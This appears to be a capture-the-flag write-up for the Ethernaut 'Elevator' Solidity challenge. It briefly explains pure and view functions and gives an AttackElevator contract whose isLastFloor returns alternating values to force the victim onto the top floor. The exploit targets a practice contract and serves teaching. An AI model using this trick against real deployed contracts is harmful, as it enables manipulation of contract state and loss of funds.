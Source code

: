 # Day 11 - Elevator

## Pure & View functions

- **pure:** promises functions that will neither read from nor modify the state. Note: Pure replaces constant in more recent compilers

- **view:** promises functions that will only read, but not modify the state

![pure_vs_view](./images/pure-and-view.jpeg)

## Solution

Since `building.isLastFloor()` is not a view function, you could implement it in such a way where it returns a different value everytime it is called, even if it is called in the same function. Moreover, even if it were to be changed to a view function, you could also still attack it.

```js
pragma solidity ^0.6.0;

contract AttackElevator  {
    bool public flag;

    // implement building.isLastFloor
    function isLastFloor(uint) public returns(bool) {
        flag = !flag;
        return !flag;
    }

    function forceTopFloor(address _victim) public {
        bytes memory payload = abi.encodeWithSignature("goTo(uint256)", 1);
        _victim.call(payload);
    }

}
```
